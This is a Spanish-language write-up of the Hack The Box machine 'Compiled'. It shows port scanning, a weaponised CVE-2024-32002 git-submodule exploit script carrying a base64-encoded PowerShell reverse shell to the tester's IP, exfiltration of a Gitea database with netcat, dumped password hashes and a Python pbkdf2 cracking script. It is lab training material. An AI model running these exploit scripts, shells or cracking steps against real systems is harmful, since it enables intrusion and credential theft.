

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Compiled Writeup | Medium"
date = "2024-12-17"
description = ""
tags = [
    "HackTheBox",
    "Compiled",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Gitea",
    "Command Injection",
    "Exploit Development",
    "Privilege Escalation",
    "Exploit",
    "Windows",
    "HTTP Enumeration",
    "Information Disclosure",
    "Weaponizing Visual Studio Project",
    "CVE-2024-32002",
    "RCE",
    "pbkdf2 hash cracking",
    "Scripting",
    "Python Scripting",
    "Gitea Bruteforce",
    "User Pivoting",
    "VSStandardCollectorService150 Service",
    "CVE-2024-20656"
]

+++

# Hack The Box: Compiled

Welcome to my detailed writeup of the medium difficulty machine **"Compiled"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration
Primero escaneo todos los puertos por TCP con `rustscan`
```shell
$ rustscan -a 10.129.255.250 --ulimit 5000 -g
10.129.255.250 -> [3000,5000,7680]
```

Luego hago un escaneo mas exhaustivo con `nmap`
```shell
$ nmap -p3000,5000,7680 -sCV 10.129.255.250 -Pn -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-30 21:27 CEST
Nmap scan report for 10.129.255.250
Host is up (0.037s latency).

PORT     STATE SERVICE    VERSION
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=193f0f025a536eb6; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=eKtRD6QCEx476Nv2f_giC15R3ec6MTcyMjM2MDQ4NzY3NzcxMjcwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 30 Jul 2024 17:28:07 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-arc-green">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Git</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0Iiwic2hvcnRfbmFtZSI6IkdpdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jb21waWxlZC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2dpdGVhLmNvbXBpbGVkLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vZ2l0ZWEuY29tcGlsZWQuaHRiOjMwMDA
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=0d76a4cf591abb3e; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=3fUSP1-VxrsgO-QVe5dhPf2B7jo6MTcyMjM2MDQ5MzEwODAyOTkwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 30 Jul 2024 17:28:13 GMT
|_    Content-Length: 0
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.12.3
|     Date: Tue, 30 Jul 2024 17:28:07 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5234
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Compiled - Code Compiling Services</title>
|     <!-- Bootstrap CSS -->
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
|     <!-- Custom CSS -->
|     <style>
|     your custom CSS here */
|     body {
|     font-family: 'Ubuntu Mono', monospace;
|     background-color: #272822;
|     color: #ddd;
|     .jumbotron {
|     background-color: #1e1e1e;
|     color: #fff;
|     padding: 100px 20px;
|     margin-bottom: 0;
|     .services {
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
7680/tcp open  pando-pub?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/30%Time=66A93EB6%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,37D5,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=193f0f025a536eb6;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=eKtRD6QCEx476Nv2f_giC15R3ec6MTcyMjM2MDQ4NzY3NzcxMjcwMA;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Tue,\x2030\x20Jul\x202024\x2017:28:07\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-arc-green\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"widt
SF:h=device-width,\x20initial-scale=1\">\n\t<title>Git</title>\n\t<link\x2
SF:0rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR2
SF:l0Iiwic2hvcnRfbmFtZSI6IkdpdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jb21wa
SF:WxlZC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2dpdGVhLmNvbXBpbGVk
SF:Lmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l
SF:6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vZ2l0ZWEuY29tcGlsZWQuaHRiOjMwMD
SF:A")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Cont
SF:rol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nS
SF:et-Cookie:\x20i_like_gitea=0d76a4cf591abb3e;\x20Path=/;\x20HttpOnly;\x2
SF:0SameSite=Lax\r\nSet-Cookie:\x20_csrf=3fUSP1-VxrsgO-QVe5dhPf2B7jo6MTcyM
SF:jM2MDQ5MzEwODAyOTkwMA;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20Sam
SF:eSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Tue,\x2030\x20J
SF:ul\x202024\x2017:28:13\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPR
SF:equest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5000-TCP:V=7.94SVN%I=7%D=7/30%Time=66A93EB7%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,1521,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.3
SF:\x20Python/3\.12\.3\r\nDate:\x20Tue,\x2030\x20Jul\x202024\x2017:28:07\x
SF:20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length
SF::\x205234\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20l
SF:ang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\
SF:x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\
SF:x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Compiled\x20-\x20Code\
SF:x20Compiling\x20Services</title>\n\x20\x20\x20\x20<!--\x20Bootstrap\x20
SF:CSS\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"https
SF:://stackpath\.bootstrapcdn\.com/bootstrap/4\.5\.2/css/bootstrap\.min\.c
SF:ss\">\n\x20\x20\x20\x20<!--\x20Custom\x20CSS\x20-->\n\x20\x20\x20\x20<s
SF:tyle>\n\x20\x20\x20\x20\x20\x20\x20\x20/\*\x20Add\x20your\x20custom\x20
SF:CSS\x20here\x20\*/\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20'Ubuntu\x20Mono
SF:',\x20monospace;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20backg
SF:round-color:\x20#272822;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20color:\x20#ddd;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\.jumbotron\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20background-color:\x20#1e1e1e;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20padding:\x20100px\x2020px;\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20margin-bottom:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0}\n\x20\x20\x20\x20\x20\x20\x20\x20\.services\x20{\n\x20")%r(RTSPReque
SF:st,16C,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<hea
SF:d>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x
SF:20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x2
SF:0\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20
SF:code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x2
SF:0request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<p>Error\x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x
SF:20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\
SF:n</html>\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.56 seconds
```

# Enumerating Web Services
El puerto 3000 corresponde a una  instancia de Gitea, y nos podemos dar cuenta de que está habilitado el registro.


También detectamos dos repositorios, una calculadora simple en `C++` y el código fuente del servicio del puerto 5000


El puerto 5000 parece que corresponde a un servicio web

Vamos a echar un vistazo con `whatweb` y vemos que el servicio del puerto `5000` corresponde a un servidor web que por detrás emplea Flask.
```shell
$ whatweb http://10.129.255.250:5000
http://10.129.255.250:5000 [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.12.3], IP[10.129.255.250], JQuery, Python[3.12.3], Script, Title[Compiled - Code Compiling Services], Werkzeug[3.0.3
```

Esta es la pinta que tiene la página principal.


Tras enumerar el servicio web, no hay nada interesante. Pero me pide una URL de un repositorio de git para, supuestamente, compilar mi código que tiene que ser `C++`, `C#` o `.NET`


# Foothold
## Weaponizing Visual Studio project (failed)
Esto me recuerda mucho a la máquina [Visual](https://www.hackthebox.com/machines/visual)
Así que ya me imagino por donde puede ir la explotación, para la máquina Visual necesitabamos hostear el repositorio con Gitea ya que era lo mas fácil, pero aquí ya tenemos hasta el Gitea levantado por el puerto `3000` y nos podemos hacer una cuenta.

Volviendo al Gitea, podemos ver el archivo app.py que corresponde con este servicio.
```python
from flask import Flask, request, render_template, redirect, url_for
import os

app = Flask(__name__)

# Configuration
REPO_FILE_PATH = r'C:\Users\Richard\source\repos\repos.txt'

@app.route('/', methods=['GET', 'POST'])
def index():
    error = None
    success = None
    if request.method == 'POST':
        repo_url = request.form['repo_url']
        if # Add a sanitization to check for valid Git repository URLs.
            with open(REPO_FILE_PATH, 'a') as f:
                f.write(repo_url + '\n')
            success = 'Your git repository is being cloned for compilation.'
        else:
            error = 'Invalid Git repository URL. It must start with "http://" and end with ".git".'
    return render_template('index.html', error=error, success=success)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

```

Si nos damos cuenta, el funcionamiento es que primero comprueba si es un repositorio válido (que en ese momento parece que no estaba añadida la sanitización de la URL), y acto seguido escribe esta URL en `C:\Users\Richard\source\repos\repos.txt` y supongo que habrá alguna tarea por detrás o habrá alguna actualización en el código para después compilarlo.

También podemos saber que cuando ganemos acceso a la máquina probablemente lo ganemos como el usuario `Richard`

En el repositorio `Calculator` vemos el siguiente código
```C++
// Created by Richard Goodman (contact me at richard@compiled.htb)

#include <iostream>
#include <cmath>

using namespace std;

int main()
{
	// Variables
	string operation;
	double number1, number2;

	// Input
	cout << "Enter first number: ";
	cin >> number1;
	cout << "Enter operation (+, -, *, /): ";
	cin >> operation;
	cout << "Enter second number: ";
	cin >> number2;

	// if else statement checking entered operation
	if (operation == "+") {
		cout << number1 + number2;
	}
	else if (operation == "-") {
		cout << number1 - number2;
	}
	else if (operation == "*") {
		cout << number1 * number2;
	}
	else if (operation == "/") {
		cout << number1 / number2;
	}
	else {
		cout << "Not recognized either operation or number:(";
	}

	return 0;
}
```

Esto no nos sirve de nada, pero el proyecto nos sirve para poder añadir la propiedad.

Nos creamos una cuenta en el Gitea y creamos un repositorio.


Ahora nos clonamos el repositorio original de `Calculator` y tenemos que modificar el archivo `Calculator.vcxproj`

Agregué esta linea, hice un commit al repositorio y...
```XML
  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="ping 10.10.14.71" />
  </Target>

```

No conseguimos ejecución remota de comandos, así que toca buscar una forma alternativa de conseguir RCE.
```shell
$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
^C
0 packets captured
0 packets received by filter
0 packets dropped by kernel
```

Enumerando un poco mas el repositorio de `Calculator` vemos que en el `README.md` se encuentra lo siguiente.
```cmd
C:\Users\Richard> git --version
git version 2.45.0.windows.1
C:\Users\Richard>
```

Y vemos que hay una vulnerabilidad de tipo RCE.


## Abusing CVE-2024-32002 (Remote Command execution via git clone)
Esta vulnerabilidad se basa en crear un repositorio malicioso, y si la víctima clona este repositorio con el parámetro `--recursive` podría ejecutar `hooks` que estén contemplados en los submódulos del repositorio y conseguir RCE. La vulnerabilidad existe por la forma en la que Git gestiona los enlaces simbólicos en los submódulos de los repositorios.

Voy a utilizar este [PoC](https://amalmurali.me/posts/git-rce/)

Primero nos vamos a crear un repositorio que se llame `hook`


Luego otro que se llame `incredibol` (por ejemplo)


Ahora, nos podemos descargar este archivo `.sh` del creador del artículo anteriormente mencionado.
https://github.com/amalmurali47/git_rce/blob/main/create_poc.sh

Modificamos el script para ejecutar un comando en windows y adaptamos el nombre de los repositorios..
```shell
#!/bin/bash

git config --global protocol.file.allow always
git config --global core.symlinks true

hook_repo_path="http://10.129.255.250:3000/pointedsec/hook.git"

git clone "$hook_repo_path"
cd hook
mkdir -p y/hooks

cat > y/hooks/post-checkout <<EOF
powershell ping 10.10.14.71
EOF

chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout

git commit -m "post-checkout"
git push

cd ..

incredibol_repo_path="http://10.129.255.250:3000/pointedsec/incredibol.git"

git clone "$incredibol_repo_path"
cd incredibol
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info

git commit -m "add-symlink"
git push
```

Ejecutamos el script, y una vez termine, simplemente le tenemos que pasar el repositorio `incredibol` para que intente compilarlo en la máquina víctima.


¡Y tenemos RCE!
```shell
$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes

22:21:24.079142 IP 10.129.255.250 > 10.10.14.71: ICMP echo request, id 1, seq 1, length 40
22:21:24.079166 IP 10.10.14.71 > 10.129.255.250: ICMP echo reply, id 1, seq 1, length 40
22:21:25.088732 IP 10.129.255.250 > 10.10.14.71: ICMP echo request, id 1, seq 2, length 40
22:21:25.088755 IP 10.10.14.71 > 10.129.255.250: ICMP echo reply, id 1, seq 2, length 40
22:21:26.092072 IP 10.129.255.250 > 10.10.14.71: ICMP echo request, id 1, seq 3, length 40
22:21:26.092092 IP 10.10.14.71 > 10.129.255.250: ICMP echo reply, id 1, seq 3, length 40
22:21:27.094250 IP 10.129.255.250 > 10.10.14.71: ICMP echo request, id 1, seq 4, length 40
22:21:27.094269 IP 10.10.14.71 > 10.129.255.250: ICMP echo reply, id 1, seq 4, length 40
```

Ahora voy a crear de nuevo los repositorios y vamos a modificar el script para establecernos una reverse shell.

```shell
#!/bin/bash

git config --global protocol.file.allow always
git config --global core.symlinks true

hook_repo_path="http://10.129.255.250:3000/pointedsec/hook.git"

git clone "$hook_repo_path"
cd hook
mkdir -p y/hooks

cat > y/hooks/post-checkout <<EOF
#!/bin/bash
ping 10.10.14.71
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwAxACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
EOF

chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout

git commit -m "post-checkout"
git push

cd ..

incredibol_repo_path="http://10.129.255.250:3000/pointedsec/incredibol.git"

git clone "$incredibol_repo_path"
cd incredibol
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info

git commit -m "add-symlink"
git push
```

Ahora si pasamos el repositorio a la aplicación...

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...

connect to [10.10.14.71] from (UNKNOWN) [10.129.255.250] 51683
PS C:\Users\Richard\source\cloned_repos\u1our\.git\modules\x> whoami
Richard
```

En el directorio `Documents` de Richard, podemos ver el script utilizado para clonar los repositorios.

```shell
#!/bin/bash

# Define the file containing repository URLs
repos_file="C:/Users/Richard/source/repos/repos.txt"

# Specify the path where you want to clone the repositories
clone_path="C:/Users/Richard/source/cloned_repos"

# Check if the file exists
if [ ! -f "$repos_file" ]; then
    echo "Error: Repositories file $repos_file not found."
    exit 1
fi

# Create the clone path if it doesn't exist
mkdir -p "$clone_path"

# Loop through each repository URL in the file and clone it
while IFS= read -r repo_url; do
    if [[ ! -z "${repo_url}" ]]; then
        repo_name=$(head /dev/urandom | tr -dc a-z0-9 | head -c 5)
        echo "Cloning repository: $repo_url"
        git clone --recursive "$repo_url" "$clone_path/$repo_name"
        echo "Repository cloned."
    fi
done < "$repos_file"

echo -n > "$repos_file"
echo "All repositories cloned successfully to $clone_path."

# Cleanup Section
 
# Define the folder path
folderPath="C:/Users/Richard/source/cloned_repos"

# Check if the folder exists
if [ -d "$folderPath" ]; then
  echo "Deleting contents of $folderPath..."

  # Delete all files in the folder
  find "$folderPath" -mindepth 1 -type f -delete

  # Delete all directories and subdirectories in the folder
  find "$folderPath" -mindepth 1 -type d -exec rm -rf {} +

  echo "Contents of $folderPath have been deleted."
else
  echo "Folder $folderPath not found."
fi
```

Y podemos ver que a la hora de clonar el repositorio, se utiliza el `--recursive` que es lo que nos habilita hacer esta explotación.

# User Pivoting | Emily
Primero nos damos cuenta de que no está la flag en el directorio personal de trabajo de `Richard`
Enumerando usuarios nos damos cuenta de la existencia de un usuario llamado `Emily`

```powershell
PS C:\Windows\Temp\work> net user

User accounts for \\COMPILED

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Emily                    
Invitado                 Richard                  WDAGUtilityAccount
```


Enumerando un poco la máquina, vemos que en el directorio `Program Files` está el `Gitea`

En el directorio `data` encontramos un archivo `gitea.db`

Me voy a compartir el `netcat` y me paso este archivo a mi máquina.

`PS C:\Windows\Temp\work> cmd /c ".\nc.exe 10.10.14.71 443 < gitea.db"`

Y al analizar la base de datos nos encontramos esto.
```SQL
sqlite> select * from user;
1|administrator|administrator||administrator@compiled.htb|0|enabled|1bf0a9561cf076c5fc0d76e140788a91b5281609c384791839fd6e9996d3bbf5c91b8eee6bd5081e42085ed0be779c2ef86d|pbkdf2$50000$50|0|0|0||0|||6e1a6f3adbe7eab92978627431fd2984|a45c43d36dce3076158b19c2c696ef7b|en-US||1716401383|1716669640|1716669640|0|-1|1|1|0|0|0|1|0||administrator@compiled.htb|0|0|0|0|0|0|0|0|0||arc-green|0
2|richard|richard||richard@compiled.htb|0|enabled|4b4b53766fe946e7e291b106fcd6f4962934116ec9ac78a99b3bf6b06cf8568aaedd267ec02b39aeb244d83fb8b89c243b5e|pbkdf2$50000$50|0|0|0||0|||2be54ff86f147c6cb9b55c8061d82d03|d7cf2c96277dd16d95ed5c33bb524b62|en-US||1716401466|1720089561|1720089548|0|-1|1|0|0|0|0|1|0||richard@compiled.htb|0|0|0|0|2|0|0|0|0||arc-green|0
4|emily|emily||emily@compiled.htb|0|enabled|97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16|pbkdf2$50000$50|1|0|0||0|||0056552f6f2df0015762a4419b0748de|227d873cca89103cd83a976bdac52486|||1716565398|1716567763|0|0|-1|1|0|0|0|0|1|0||emily@compiled.htb|0|0|0|0|0|0|0|2|0||arc-green|0
6|pointedsec|pointedsec||pointedsec@pointed.com|0|enabled|9e8b5c3188f2affd979da0985ca3f65b0b7b9b920283a2f1583d81653314beec03963da08e164a1bace8b21a74c1d15d7511|pbkdf2$50000$50|0|0|0||0|||4641ac98587ae4fae05fe9b588034b66|bdafe008c0a70c14d790894bc68547ff|en-US||1722361346|1722366996|1722361346|0|-1|1|0|0|0|0|1|0||pointedsec@pointed.com|0|0|0|0|3|0|0|0|0|unified|arc-green|0
```

Existe el usuario `emily` y tenemos un hash `pbkdf2`

Para crackear este hash, tenemos que diferenciar los diferentes campos que se utilizan para encriptar la contraseña.
```SQL
sqlite> select name, passwd, rands, salt  from user where name = "emily";
emily|97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16|0056552f6f2df0015762a4419b0748de|227d873cca89103cd83a976bdac52486
```

Tras un rato intentando crackear los hashes obtenidos con `hashcat` me ha resultado imposible, y después de enumerar mas a fondo la máquina víctima, no me quedaba otra que seguir intentando crackear el hash, preferiblemente el de `emily`  ya que al ser un CTF, lo mas probable es que la manera intencionada de completar la máquina sea haciendo un pivoting a este usuario.

Después de estudiar como funcionan este tipo de hashes, hice un script en python para crackear este hash.

Antes de dejar el script por aquí, hay que tener en cuenta el valor dklen que también es importante. Este valor es 50. Después del script explico todo mas detalladamente.

`pbkdf2$50000$50`


```python
#!/usr/bin/python3
import hashlib
import binascii
from pwn import *

salt = "227d873cca89103cd83a976bdac52486" # Este salt está en hexadecimal
key = "97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16"
real_hashed_pwd = f"{salt}:{key}"
rockyou = "/usr/share/wordlists/rockyou.txt"

def pbkdf2(pwd, salt, iterations, dklen):
    # Creamos un objeto del hash, la pwd tiene que estar en formato bytes y el salt sin hexadecimal, por eso hacemos un binascii.unhexlify
    hash = hashlib.pbkdf2_hmac('sha256', pwd, binascii.unhexlify(salt), iterations, dklen).hex()
    return f"{salt}:{hash}"
    
def crack():
    p = log.progress("Bruteforcing...")
    with open(rockyou, "r", encoding="utf-8") as file:
        for pwd in file:
            p.status("Probando " + pwd.strip())
            hash = pbkdf2(pwd.strip().encode(), salt, 50000, 50)
            if (hash == real_hashed_pwd):
                p.success("The motherfucking password ha sido crackeada: " + pwd)
                break

if __name__ == "__main__":
    crack()
```

- `salt`: La sal utilizada en el proceso de hashing, en formato hexadecimal.
- `key`: El hash que estamos tratando de crackear.
- `real_hashed_pwd`: Combinación del salt y el hash, en el mismo formato que se generará durante el proceso de crackeo.
- `rockyou`: Ruta al archivo de wordlist `rockyou.txt`, que contiene una lista de posibles contraseñas.

La función realiza lo siguiente:
1. Convierte el salt de hexadecimal a binario.
2. Genera un hash utilizando `hashlib.pbkdf2_hmac` con los parámetros especificados.
3. Convierte el hash resultante a hexadecimal y lo combina con la sal en el formato `salt:hash`

Y ahora...
```shell
$ python3 crack.py 
[+] Bruteforcing...: The motherfucking password ha sido crackeada: 12345678
```

Perfecto, esta debe de ser la credencial de Emily.

